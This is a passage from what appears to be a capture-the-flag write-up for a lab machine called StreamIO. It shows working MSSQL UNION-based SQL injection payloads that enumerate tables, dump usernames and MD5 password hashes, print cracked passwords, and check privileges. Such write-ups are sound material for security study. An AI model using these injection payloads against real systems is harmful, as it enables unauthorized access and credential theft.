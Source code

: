 Let’s check out users:

```bash
cn' UNION SELECT 1,COLUMN_NAME ,3,4,5,6 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_CATALOG = 'STREAMIO' AND TABLE_NAME = 'users'-- - 

OR

cn' UNION SELECT 1,name,3,4,5,6 FROM STREAMIO.sys.columns WHERE object_id = OBJECT_ID('STREAMIO.dbo.users')-- -
```

![image.png]({{ site.baseurl }}/assets/streamio/image%2022.png)

Let’s output all the fields:

```bash
cn' UNION SELECT 1, CONCAT(is_staff, ' ',username, ' ', password),3,4,5,6 FROM STREAMIO.dbo.users-- -

```

```bash

0 admin 665a50ac9eaa781e4f7f04199db97a11
3
1 Alexendra 1c2b3d8270321140e5153f6637d3ee53
<SNIP>
3
1 William d62be0dc82071bccc1322d64ec5b6c51
3
1 yoshihide b779ba15cedfd22a023c4d8bcf5f2332

```

The two unusual usernames is admin and yoshihide, as all the rest are first names with the first letter being a capital letter. Let’s put the hashes into crackstation; they look like md5 hashes:

```bash
admin:paddpadd
yoshihide:66boysandgirls..
```

Let’s check our current user on the mssql db:

```bash
 	cn' UNION SELECT 1,user_name(),3,4,5,6-- -
 	
 	db_user
```

Let’s list our privileges:

```bash
cn' UNOIN SELECT 1,permission_name,3,4,5,6 FROM master..fn_my_permissions(null, ‘DATABASE’)-- -

cn' UNION SELECT 1,is_srvrolemember('sysadmin'),3,4,5,6-- -

0
```
